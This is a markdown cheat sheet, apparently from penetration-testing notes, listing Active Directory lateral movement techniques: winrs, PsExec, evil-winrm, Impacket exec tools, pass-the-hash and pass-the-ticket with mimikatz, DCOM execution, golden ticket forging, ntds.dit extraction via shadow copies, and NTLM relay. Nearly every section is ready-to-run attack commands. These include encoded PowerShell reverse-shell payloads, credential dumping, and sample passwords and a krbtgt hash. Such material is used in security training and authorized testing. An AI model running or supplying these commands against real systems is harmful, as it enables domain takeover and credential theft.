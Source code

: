 # 🏹 AD Lateral Movement

## Winrs

```shell
# add the base64-encoded powershell reverse shell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e <enconded_rs>"
```

## PsExec.exe

**Requirements**:

- the user that authenticates to the target machine needs to be part of the Administrators local group
- the _ADMIN$_ share must be available (enabled by default)
- file and printer sharing has to be turned on (on by default)

```shell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Evil-Winrm

```shell
# using password
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -S
# using hash
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
# using key
evil-winrm -i <ip>/<domain> -c cert.pem -k key.pem -S

# once connected, upload or download files
upload <file>
download <file>

# load PS scripts on connect
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -s <script.ps1>
```

## Impacket-\*execs

**Requirements**:

- an SMB connection through the firewall (commonly port 445)
- the Windows File and Printer Sharing feature to be enabled
- the admin share called **ADMIN$** to be available

```shell
# psexec
impacket-psexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# smbexec
impacket-smbexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# wmiexec
impacket-wmiexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# atexec
impacket-atexec -hashes <hash:hash> <domain>/<user>@<IP> <command>

# if you only have the NTLM hash portion, use :<ntlm_hash>
```

## Overpass the Hash

> When you have NTLM hashes but need Kerberos access.

```shell
# get hashes with mimikatz
privilege::debug
sekurlsa::logonpasswords
# generate kerberos ticket
sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash>
# verify Kerberos Ticket
klist

# access the resource
dir \\<target>\C$
```

## Pass the Ticket

> When you have Kerberos tickets but not the NTLM hash.

```shell
# export tickets with mimikatz
privilege::debug
sekurlsa::tickets /export
# import it with the current user
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<rhost>.LOCAL.kirbi
# verify Kerberos Ticket
klist

# access the resource
dir \\<target>\admin$
```

## DCOM

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

Is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to gain complete control of the Active Directory domain because it grants them the ability to request tickets for any service.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant KDC as KDC
    participant S as Service

    Note over A: Attacker obtains KRBTGT key (offline)
    A->>A: Forge Golden Ticket (TGT) with custom claims
    A->>KDC: TGS-REQ (with forged TGT)
    KDC-->>A: TGS-REP (service ticket)
    A->>S: AP-REQ (with forged service ticket and authenticator)
    S-->>A: AP-REP (access granted)

```

```shell
# windows
# delete existing tickets
kerberos::purge

# get domain SID
whoami /user

# forge the ticket
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# spawn a cmd as the new user
misc::cmd
# or launch a psexec.exe
PsExec.exe \\dc1 cmd.exe

# linux
impacket-ticketer -aesKey <key> -domain-sid <sid> -domain <domain> -extra-sid <parent_sid> <user> -extra-pac

# import the TGT
export KRB5CCNAME=<user>.ccache

# access the machine
impacket-psexec -k -no-pass <domain>/<username>@<hostname>.<domain>
```

To get the parent domain (if needed) and use it in `-extra-sid`:

```shell
.\mimikatz.exe "lsadump::trust /patch" "exit"
```

## Shadow Copies

**Requirements**:

- Admins or SYSTEM privs
- Access to a DC (ntds.dit is only on DC)
- Regular user with **SeBackupPrivilege** (Can use robocopy to get the file from the copy)

### vshadow

```shell
# execute vshadow and look for the path
vshadow.exe -nw -p C:
# copy from the path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# get system
reg.exe save hklm\system c:\system.bak
# user secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### diskshadow

First we set a **shadowcopy.txt** instructions in which we are creating a volume with an alias as seen [here](https://pentestlab.blog/tag/diskshadow/)

```shell
set context persistent nowriters
add volume c: alias hack
create
expose %hack% z:
```

Upload the file and execute `diskshadow`

```shell
# execute diskshadow using the file
diskshadow.exe /s .\test.txt
# copy or use robocopy if regular user witn backup perms
robocopy /b z:\Windows\NTDS\ . ntds.dit 
# get system
reg save HKLM\system system
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

## NTLM Relay

!!! info
    SMB signing on the target system must be **disabled**

```shell
# check whether the SMB signing is enabled on the target system
nxc smb <target_host>

# capture and forward the request to target host and execute a command on it
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host> -c "powershell -enc JABjAGwAa...AYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

# dump target hashes without executing command
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host>
```
